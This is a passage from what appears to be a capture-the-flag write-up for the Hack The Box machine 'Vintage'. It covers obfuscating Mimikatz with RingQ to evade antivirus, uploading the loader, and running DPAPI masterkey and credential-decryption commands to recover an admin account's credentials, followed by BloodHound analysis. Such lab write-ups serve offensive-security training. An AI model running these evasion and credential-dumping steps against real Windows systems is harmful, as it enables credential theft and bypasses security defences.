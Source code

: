 
#### 2. Using Mimikatz

If you have an obfuscated version of Mimikatz, you can use it directly. If not, it’s essential to learn how to obfuscate your tools for later use. For now, we will use [RingQ](https://github.com/T4y1oR/RingQ.git) to automate the process, as heavy obfuscation is not necessary at this stage.

+ Download the Tool from github
+ Place Mimikatz.exe in the same folder as the tool.
+ Use Create.exe to create the obfuscated payload to evade detection.

    ![](https://cdn-images-1.medium.com/max/1000/1*zv3pA-4rOUxjfovq-lVZ3g.png)
    Once tested and confirmed to be working, proceed with uploading the files.
    ![](https://cdn-images-1.medium.com/max/1000/1*ewLjPQGQA9HKcTStkvHYww.png)

+ Upload the loader and the `main.txt` file to the machine.

    Ensure both the loader and obfuscated code are in the same directory.
    ```
    upload /htb/Vintage/www/RingQ.exe
    upload /htb/Vintage/www/main.txt
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*1nsByDFu-v0W7RvMAGLvRw.png)
+ Run the loader to load the executable.
    ![](https://cdn-images-1.medium.com/max/1000/1*wEoAdPP3alpfKruoV_9EKA.png)
+ Decrypt the Master Key

    To decrypt the master key, use the following Mimikatz command:
    ```
    dpapi::masterkey /in:C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\4dbf04d8-529b-4b4c-b4ae-8e875e4fe847 /sid:S-1-5-21-4024337825-2033394866-2055507597-1115 /password:Zer0the0ne /protected
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*z8IxFWJeqHrmVL2H-7lidA.png)

+ Decrypt the DPAPI Blob

    To decrypt the DPAPI blob, use the following command:
    ```
    dpapi::cred /in:C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6 /masterkey:f8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*A6JWCSiMU1U1Ptk3xR0qzg.png)

We now have credentials for `C.Neri_adm` blob, Test these creds.
![](https://cdn-images-1.medium.com/max/1000/1*ruXPQSlIiSK1X_YPCWaLPw.png)

Mark this user as **Owned** in BloodHound and analyze the possible attack paths.

![](https://cdn-images-1.medium.com/max/1000/1*gWGPl106Wb939pSVZ6aJCQ.png)
